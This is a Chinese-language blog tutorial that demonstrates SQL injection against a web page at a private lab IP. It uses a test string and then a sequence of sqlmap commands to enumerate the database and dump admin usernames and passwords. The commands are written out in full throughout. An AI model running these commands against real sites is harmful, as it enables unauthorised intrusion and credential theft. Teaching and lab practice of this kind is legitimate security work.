 ```yaml
---
title: sql实例(X集团)
date: 2022-03-28
cover: https://s1.ax1x.com/2022/03/28/qrv4DU.jpg
tags:
 - sql
categories:
 - sql注入
---
```


## sql注入（X集团实例）

第一步：进入网站寻找到拥有id=（任意数字）末尾的url，使用sql注入语句进行测试。
<img src="https://s1.ax1x.com/2022/03/28/qrbhuQ.png">
`'1 and 1=1`

第二步：使用sqlmap工具开始进行注入测试，扫出所有数据。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -dbs`

<img src="https://s1.ax1x.com/2022/03/28/qrjEWt.png">
<img src="https://s1.ax1x.com/2022/03/28/qrOk0H.png">

第三步：通过sqlmap扫出当前所处数据库。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch --current-db`

<img src="https://s1.ax1x.com/2022/03/28/qrjEWt.md.png">
<img src="https://s1.ax1x.com/2022/03/28/qrOFne.png">

第四步：使用sqlmap工具扫出所使用的表。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi --tables`

<img src="https://s1.ax1x.com/2022/03/28/qrb4Bj.png">
<img src="https://s1.ax1x.com/2022/03/28/qrb740.png">

第五步：通过上图可以发现yx_admin的一个数据表，我们可以尝试注入查看内容，通过sqlmap扫出该表中拥有的列。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi -T yx_admin -columns`

<img src="https://s1.ax1x.com/2022/03/28/qrb5Hs.png">
<img src="https://s1.ax1x.com/2022/03/28/qrboEn.png">

第六步：可以发现该表中拥有username和password两列，所以使用--dump查看这两列。

`sqlmap -u "http://192.168.110.66/sql/index.php?r=default/news/content&id=12" --batch -D yanshi -T yx_admin -C username,password --dump`

<img src="https://s1.ax1x.com/2022/03/28/qrbTNq.png">

注入成功，得到用户名和密码。
<img src="https://s1.ax1x.com/2022/03/28/qrbbCV.png">

附上全过程链接：
<a href="https://www.bilibili.com/video/BV1Qa411x79v" target="_blank">sql实例</a>